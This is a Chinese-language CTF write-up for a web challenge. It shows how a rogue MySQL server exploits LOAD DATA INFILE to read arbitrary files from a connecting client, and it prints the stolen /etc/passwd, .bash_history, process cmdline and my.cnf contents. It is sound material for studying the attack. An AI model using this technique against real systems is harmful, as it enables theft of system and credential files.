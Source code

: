 所以我们大胆猜测一下，既然是mysql弱口令，那么肯定需要我们的mysql服务器开到公网并且能够hack掉mysql客户端，联想到之前看到的LOAD DATA INFILE读取客户端任意文件

具体请看文章`https://www.anquanke.com/post/id/106488`，我就不赘述了

利用这个工具`https://github.com/Gifts/Rogue-MySql-Server`

首先在服务器部署agent.py，并且将返回值固定并一定要返回mysqld（这是检测服务器是否开启mysql的），接着让题目的主机扫描你的服务器，题目的主机会 发起查询请求，我们即可读取任意文件

首先读取`/etc/passwd`

```
2019-04-16 10:50:03,847:INFO:Result: '\x02root:x:0:0:root:/root:/bin/bash\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nadm:x:3:4:adm:/var/adm:/sbin/nologin\nlp:x:4:7:lp:/var/spool/
......略
tfix:/sbin/nologin\nchrony:x:998:995::/var/lib/chrony:/sbin/nologin\ntcpdump:x:72:72::/:/sbin/nologin\ndc2-user:x:1000:1000::/home/dc2-user:/bin/bash\nmys
    ql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash\nmongod:x:997:994:mongod:/var/lib/mongo:/bin/false\nnginx:x:996:993:Nginx web server:/var/lib/nginx:/sbin/nologin\n'
```

发现我们没有root权限，猜测我们的权限为/etc/passwd中的`dc2-user:x:1000:1000::/home/dc2-user:/bin/bash`

读取该用户的历史bash命令:`/home/dc2-user/.bash_history`

```
.......略
'nls     \ncd ../\nls\ncd env/\nls\ncd ../\nls\ncd web_1/\nls\nls -la\ncd ../../\nls\ncd ctf_web_\ncd ctf_web_2\nls\nls -la\ncd log/\nlks\nls\ncat gunicorn.log \n;s\ncat gunicorn     .err \nls\nnetstat -plnt\nls\nps -aux | grep gunicorn\nls\ncd ../\nls\ncat start.sh \nls\ncd ../\nls\ncd ctf_web_2/\nls\ncat restart.sh \ncat start.sh \nls\ncd ../\nls\n     cd ctf_web_1/\nls\ncd web_1/\nls\ncd ../\nls\ncd ../\nls\ncd ctf_web_2/\nls\ncat restart.sh \nnetstat -plnt\nps -uax | gr)
...
```

再读取程序运行的命令行：`/proc/self/cmdline`

```
home/dc2-user/ctf_web_2/ctf_web_2/bin/python2 /home/dc2-user/ctf_web_2/ctf_web_2/bin/gunicorn didi_ctf_web2:app -b 127.0.0.1:15000 --access-logfile /home/dc2-user/ctf_web_2/2_access.log
```

这样即可得知目录结构，我们循环着读源码（中间因为我们不知道导入的是包还是单文件，所以逐个尝试，不过大多都是包）：

![](https://upload-images.jianshu.io/upload_images/11356161-e516e0eefe486395.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

最后在views.py里

```
# flag in mysql  curl@localhost database:security  table:flag
```

flag在数据库，所以我们尝试读数据库文件，首先读my.cnf确定数据存放的目录：`/etc/my.cnf`

```
# read_rnd_buffer_size = 2M
datadir=/var/lib/mysql
socket=/var/lib/mysql/mysql.sock

# Disabling symbolic-links is recommended to prevent assorted security risks
symbolic-links=0
```
